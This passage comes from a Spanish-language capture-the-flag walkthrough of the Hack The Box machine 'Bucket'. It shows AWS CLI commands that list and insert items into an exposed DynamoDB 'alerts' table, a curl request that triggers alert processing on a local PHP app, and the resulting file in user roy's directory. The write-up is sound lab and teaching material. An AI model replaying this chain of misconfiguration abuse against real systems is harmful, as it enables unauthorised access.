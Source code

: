 ```bash 
        "CreationDateTime": "2025-05-19T21:21:09.830000-04:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1969-12-31T19:00:00-05:00",
            "LastDecreaseDateTime": "1969-12-31T19:00:00-05:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
```

Ya aparece la tabla: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

Ya podemos agregarle atributos: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"This is a test"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

Activamos la alerta: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```

Y en el directorio de roy podemos ver el resultado: 
```bash 
roy@bucket:/var/www/bucket-app/files$ ls
5065.html  result.pdf
roy@bucket:/var/www/bucket-app/files$ cat 5065.html
This is a test
```
